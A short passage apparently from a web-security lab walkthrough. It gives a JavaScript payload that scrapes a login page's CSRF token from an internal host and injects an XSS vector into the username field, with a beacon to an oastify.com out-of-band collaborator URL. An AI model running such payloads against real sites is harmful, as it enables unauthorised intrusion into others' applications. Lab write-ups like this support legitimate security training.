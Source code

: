 ![picture 9](/assets/images/1e6bbbad9fd5d3cd8366fba4df05551596115616688e124946675178ad055959.png)  

Next payload will check for XSS in the username field.

```html
<script>
function xss(url, text, vector) {
	location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="([^"]+)"/)[1];
}

function fetchUrl(url, collaboratorURL){
	fetch(url).then(r => r.text().then(text => {
		xss(url, text, '"><img src='+collaboratorURL+'?foundXSS=1>');
	}))
}

fetchUrl("http://192.168.0.145:8080", "http://547jg7jjlja7886t5crnkxt2xt3krcf1.oastify.com");
</script>
```
